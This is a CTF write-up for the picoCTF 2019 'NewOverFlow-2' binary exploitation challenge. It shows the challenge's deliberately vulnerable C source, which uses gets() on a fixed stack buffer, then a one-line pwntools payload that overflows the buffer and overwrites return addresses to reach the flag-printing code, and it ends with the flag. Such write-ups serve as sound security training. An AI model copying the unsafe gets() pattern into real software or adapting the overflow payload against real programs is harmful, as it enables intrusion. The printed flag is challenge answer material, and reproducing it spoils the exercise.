

# NewOverFlow-2 

Points : 250

# Question

Okay now lets try mainpulating arguments. [program](vuln). You can find it in /problems/newoverflow-2_5_13f3d3dc09fc09d6d5db8adfa899a05d on the shell server. [Source](vuln.c).

# Hint 

Arguments aren't stored on the stack anymore ;)

# Solution

looking at the source code it seems that we need to pass some arguments inorder to get the flag 
```C
#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}
```

however like the hint suggests they are no longer on the stack, the solution to this challenge is exactly [NewOverFlow1](https://github.com/netanelc305/picoCTF-2019/tree/master/Binary%20Exploitation/NewOverFlow-1)

all need is to change the adresses to the current program adresses.
```
python -c "from pwn import *; print'X'*72+p64(0x00000000004008b1)+p64(0x000000000040084d)" | ./vuln
```



# Flag
picoCTF{r0p_1t_d0nT_st0p_1t_b3358018}

